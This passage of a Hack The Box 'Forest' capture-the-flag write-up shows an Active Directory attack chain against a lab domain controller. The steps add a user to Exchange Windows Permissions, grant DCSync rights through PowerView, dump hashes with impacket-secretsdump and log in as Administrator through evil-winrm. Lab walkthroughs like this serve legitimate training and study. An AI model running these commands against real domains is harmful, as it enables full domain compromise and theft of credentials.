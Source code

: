 ```bash
net group "EXCHANGE WINDOWS PERMISSIONS" /add tonee
```
Check if it's in:

<img width="746" height="245" alt="16" src="https://github.com/user-attachments/assets/d6ab26e3-82f1-4ced-9ea0-2e1c4025d03c" />


## DCSync


Now all we need to do is grant this new user DcSync privileges on the DC:


<img width="1261" height="675" alt="18" src="https://github.com/user-attachments/assets/55c0d5b4-31fd-4965-8cea-048a3df3002e" />



For doing this,first we should download PowerView.ps1

<img width="693" height="304" alt="17" src="https://github.com/user-attachments/assets/e774fe08-68d5-4d2e-a749-0a4993c606f8" />

Now run these commands as showing on screenshot above:

```bash
$SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
```

```bash
$Cred = New-Object System.Management.Automation.PSCredential('htb\tonee', $SecPassword)
```

```bash
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tonee -Rights DCSync
```

<img width="788" height="113" alt="22" src="https://github.com/user-attachments/assets/9c78865d-5744-456b-8c1b-ffcf96339ef6" />


Now let's try dumping the hashes using the new user DCSync privileges, to do thatwe will use impacket-secretsdump:

```bash
impacket-secretsdump   htb.local/tonee:password123@10.10.11.161
```


<img width="796" height="406" alt="20" src="https://github.com/user-attachments/assets/0ae033a2-8700-4b18-aa0b-14a2d1bb4198" />

Next, we get Administrator hash and get access via evil-winrm:

<img width="1121" height="583" alt="forest(4)" src="https://github.com/user-attachments/assets/bfb13ec4-f993-425c-99c4-43530bb93865" />


Now we control whole DC!


## Conclusion
